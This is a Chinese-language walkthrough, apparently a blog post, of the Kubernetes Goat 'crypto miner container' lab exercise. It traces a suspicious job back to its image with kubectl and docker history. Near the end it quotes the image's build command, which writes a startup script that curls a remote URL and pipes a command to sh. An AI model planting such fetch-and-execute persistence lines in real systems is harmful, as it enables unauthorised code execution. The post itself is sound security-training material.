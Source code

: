 # Analyzing crypto miner container

## Story

![msedge_4Nn1EECwWG](../images/2023-05/msedge_4Nn1EECwWG.png)

## Solution

关于挖矿病毒的溯源，在k8s的环境下，大致的溯源过程就是为`job/pod -> image -> image built command`。现在，就让我们来试试吧！

```
kubectl get jobs
```

![image-20230503215624610](../images/2023-05/vmware_n66lGIrOHJ.png)

先获取执行了哪些任务，job其实就是类似于我们创建服务的脚本，我们可以获取job的详细信息来看看。

```
kubectl describe job batch-check-job
```

![vmware_OJvUbRAs6j](../images/2023-05/vmware_OJvUbRAs6j.png)

可以看到利用了`madhuakula/k8s-goat-batch-check`这个镜像，通过`docker history`命令，我们可以查看这个镜像在哪里被创建了。

通过`--no-trunc :`显示完整的提交记录。

```
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

这边因为网络问题，不能拉取镜像，所以job执行失败了=。=

所以就贴一下官方的图片。

![sc-10-4-649f6c8af994c250d16af0eae7581db3](../images/2023-05/sc-10-4-649f6c8af994c250d16af0eae7581db3.png)

我们可以看到执行了下面的命令去获取远程的脚本并执行。

```
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```

但是目前官网给的这个链接噶掉了，因为上面提到的环境问题，所以我也不知道job里面执行的真实的命令是怎么样，如果最后有师傅做出来了，欢迎和我交流。

